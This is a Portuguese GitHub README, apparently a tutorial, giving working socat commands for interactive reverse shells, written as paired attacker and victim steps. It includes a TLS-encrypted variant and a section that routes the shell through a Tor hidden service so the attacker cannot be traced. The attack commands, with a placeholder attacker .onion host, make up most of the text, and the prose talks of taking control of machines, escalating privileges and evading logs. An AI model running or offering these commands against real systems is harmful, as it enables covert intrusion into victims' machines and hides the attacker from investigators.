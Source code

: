 <p align="center">

<h1 align="center"> Shell reverso interativo e criptografado 
<h1 align="center">

<img src="https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=white" alt="Shell" />

<img src="https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black" alt="Linux" />

<img src="https://img.shields.io/badge/Debian-D70A53?style=for-the-badge&logo=debian&logoColor=white" alt="Debian.io" />

<img src="https://img.shields.io/badge/Tor-7D4698?style=for-the-badge&logo=Tor-Browser&logoColor=white" alt="Prisma.io" />

## O que é shell ?

Para entendermos o que é shell reverso, precisamos falar de shell. Podemos definir um shell como uma ligação entre o sistema e o usuário. Podemos dizer o shell tem a finalidade de interpretar comandos, transmiti-los ao sistema e devolver os resultados através do um terminal. A vários tipos de interpretadores shell em sistemas Unix/Linux sendo os mais comuns o sh , o bash ,csh o Tcsh , ksh , e o zsh.

## Shell Reverso

É uma técnica utilizada para enviar comandos de um shell remotamente por uma porta. Assim permite que o atacante abra uma porta de escuta em seu servidor e através dessa porta receber conexões de outras máquinas permitindo assim controla-las.

<p align="center">
  <a href="#" target="blank"><img src="https://media.geeksforgeeks.org/wp-content/uploads/20211126190050/reverseshell.png" alt="" /></a>
</p>

Com acesso a máquina comprometida, o atacante poderá escalar privilégios para ter acesso administrativo ao sistema.

Existem vários tipos de [shell reverso](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), mas utilizarei o socat.

Primeiramente instale o socat e o openssl:

```bash
$ apt install socat openssl
```

Poucas linhas de código são necessárias, basta o atacante abrir um terminal linux e executar o comando:

```bash
PORT=1111
socat file:`tty`,raw,echo=0 TCP-L:$PORT
```

A vítima deve deve ter o <strong>socat</strong> instalado e executar o seguinte comando em um terminal linux:

```bash
# host e porta do atacante
HOST=localhost
PORT=1111
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT

```

Abra duas instâncias do terminal e teste em localhost.

## Shell reverso criptografado

Atacante:

```shell

# Servidor

PORT="1111"

openssl req -x509 -sha256 -newkey rsa:2048 -keyout server.pem -out server.pem -days 1000 -nodes -subj "/C=NA/ST=NARNIA/L=HIDDEN/O=Global Security/OU=IT Department/CN=hidden.onion"

socat $(tty),raw,echo=0 openssl-listen:$PORT,reuseaddr,cert=server.pem,verify=0
```

Vítima:

```shell
# CLiente
HOST=localhost
PORT=80
socat openssl-connect:$HOST:$PORT,verify=0 exec:bash,pty,stderr,setsid
```

## Bônus

### Shell reverso utilizando a rede tor

Em sistemas robustos são guardados logs de conexões. Desta forma o endereço de ip da atacante seria facimente descoberto. Para tornar o endereço do atacante desconhecido, o atacante precisa ter o tor instalado:

```bash
apt install tor
```

Agora o atacante precisa possuir um servidor na rede tor, para isso a o atacante precisa adicionar as seguintes linhas ao arquivo <strong>/etc/tor/torrc</strong>

```
HiddenServiceDir /var/lib/tor/hidden/
HiddenServicePort 1111 127.0.0.1:1111
```

Reiniciar o tor:

```
systemctl restart tor
```

Para descobrir o host do atacante:

```bash
cat /var/lib/tor/service/hidden/hostname

# Aparecerá algo desse tipo
dominio-do-atacante.onion
```

O atacante deve executar:

```bash
PORT=1111
socat file:`tty`,raw,echo=0 TCP-L:$PORT
```

A vítima deverá ter o tor instalado, e deverá executar:

```bash
HOST=dominio-do-atacante.onion
PORT=1111
torsocks socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT
```

## Observação

Vale lembrar que você pode criptografar o shell reverso na rede tor, mas por causa das camadas de criptografia da rede, a conexão ficará muito lenta! Mas agora é extremamente difícil para vitima identificar o atacante.

Abaixo nas referências, alguns caras muito respeitados no assunto de cyber security:

## **📚 Referências**

- [Van Houser](https://github.com/vanhauser-thc?tab=repositories) participação na série Mr. Robot, criador do hydra, [etc...](https://www.thc.org/)

- [Hackers-cheats](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

## **👨‍🚀 Autor**

<a href="https://github.com/tpaphysics">
<img alt="Thiago Pacheco" src="https://images.weserv.nl/?url=avatars.githubusercontent.com/u/46402647?v=4?v=4&h=300&w=300&fit=cover&mask=circle&maxage=7d" width="100px"/>
  <br />
  <sub>
    <b>Thiago Pacheco de Andrade</b>
  </sub>
</a>
<br />

👋 Meus contatos!

[![Linkedin Badge](https://img.shields.io/badge/-LinkedIn-blue?style=for-the-badge&logo=Linkedin&logoColor=white&link=https://www.linkedin.com/in/thiago-pacheco-200a1a86/)](https://www.linkedin.com/in/thiago-pacheco-200a1a86/)
[![Gmail Badge](https://img.shields.io/badge/-Gmail-c14438?style=for-the-badge&logo=Gmail&logoColor=white&link=mailto:physics.posgrad.@gmail.com)](mailto:physics.posgrad.@gmail.com)

## Licença

Veja o arquivo [MIT license](LICENSE.md).
